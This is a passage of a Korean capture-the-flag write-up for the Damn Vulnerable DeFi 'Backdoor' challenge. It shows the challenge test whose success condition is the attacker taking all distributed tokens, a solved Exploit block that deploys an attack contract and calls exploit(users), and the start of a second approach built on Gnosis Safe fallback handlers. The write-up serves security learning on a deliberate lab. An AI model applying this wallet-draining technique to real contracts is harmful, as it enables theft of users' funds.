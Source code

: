 ```tsx
        await this.token.transfer(this.walletRegistry.address, AMOUNT_TOKENS_DISTRIBUTED);
    });

    it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
    });

    after(async function () {
        /** SUCCESS CONDITIONS */
        for (let i = 0; i < users.length; i++) {
            let wallet = await this.walletRegistry.wallets(users[i]);
            
            // User must have registered a wallet
            expect(wallet).to.not.eq(ethers.constants.AddressZero, "User did not register a wallet");

            // User is no longer registered as a beneficiary
            expect(
                await this.walletRegistry.beneficiaries(users[i])
            ).to.be.false;
        }

        // Attacker must have taken all tokens
        expect(
            await this.token.balanceOf(attacker.address)
        ).to.eq(AMOUNT_TOKENS_DISTRIBUTED);
    });
});
```

test 폴더의 backdoor.challenge.js의 Exploit 부분에서 작성한 컨트랙트를 배포 후 exploit 함수를 실행해 주면 된다.

```tsx
it('Exploit', async function () {
        this.attackFactory = await ethers.getContractFactory("attackBackdoor_del",attacker);
        this.attackcontract = await this.attackFactory.deploy( this.walletFactory.address, this.masterCopy.address, this.token.address, this.walletRegistry.address);
        await this.attackcontract.connect(attacker).exploit(users);

    });
```

![성공_del.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/01d0764f-b027-4ae3-a0f1-79c7df26cee2/%EC%84%B1%EA%B3%B5_del.png)

npm run backdoor를 통하여 Exploit이 성공적으로 진행되어 문제의 목표를 달성한 것을 확인할 수 있다.

## Fallback 함수를 사용하여 해결

fallbackHandler주소가 0이 아닐때 이를 인자로 internalSetFallbackHandler를 호출하는 것을 볼 수 있다.

internalSetFallbackHandler는 FallBackManager.sol 함수에 존재한다.

```solidity
// SPDX-License-Identifier: LGPL-3.0-only
pragma solidity >=0.7.0 <0.9.0;

import "../common/SelfAuthorized.sol";

/// @title Fallback Manager - A contract that manages fallback calls made to this contract
/// @author Richard Meissner - <richard@gnosis.pm>
contract FallbackManager is SelfAuthorized {
    event ChangedFallbackHandler(address handler);

    // keccak256("fallback_manager.handler.address")
```